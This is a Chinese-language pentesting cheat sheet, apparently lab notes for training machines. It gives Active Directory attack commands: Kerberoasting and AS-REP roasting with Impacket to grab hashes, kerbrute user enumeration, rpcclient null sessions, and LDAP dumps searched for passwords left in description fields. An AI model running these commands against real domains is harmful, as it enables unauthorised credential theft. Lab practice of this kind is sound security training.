 #### Impacket-GetUserSPNs

```
# 尝试无凭据使用Impacket-GetUserSPNs抓取SPN账户Hash，域用户名可先随意伪造个none_svc
impacket-GetUserSPNs  -dc-ip 10.10.11.69 -request fluffy.htb/none_svc
```

#### Impacket-GetNPUsers

```
# 在RPC空会话下，通过用户文件枚举哪些用户没有开启Kerberos预身份验证
impacket-GetNPUsers -usersfile ./domainusers.txt -request -format hashcat -dc-ip 10.10.11.69 fluffy.htb/
```

#### Kerbrute

```
# 爆破88端口，枚举域用户
./kerbrute_linux_amd64 userenum -v -d vault.offsec --dc dc01.vault.offsec /usr/share/seclists/Usernames/Names/names.txt

# 使用不同的字典枚举域用户
kerbrute userenum -d hokkaido-aerospace.com --dc 192.168.237.40 /opt/SecLists/Usernames/top-usernames-shortlist.txt
kerbrute  userenum -d hokkaido-aerospace.com --dc 192.168.208.40 /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt -t 100
```

#### Rpcclient

```
# 尝试空登录
rpcclient -N -U "" vault.offsec

# 使用rpcclient命令查询服务器信息
srvinfo

# 使用rpcclient命令查询域用户，有时候Desc字段会泄露用户凭据，当然用户凭据会被"伪装"，需要仔细检查！
querydispinfo
```

#### Ldapsearch

```
# 如果重定向成功，将会产生大量数据，最好将其保存在命令行或文本编辑器中，并方便搜索。
ldapsearch -H ldap://192.168.152.172 -x -b"DC=vault,DC=offsec" > ldap_dump.txt

# 如果能未授权转储ldap数据，则可筛选出用户名。
cat ldap_dump.txt | grep -i "samaccountname"

# 有时候description会泄露凭据！
cat ldap_dump.txt | grep -i  "description"
```

#### Enum4linux
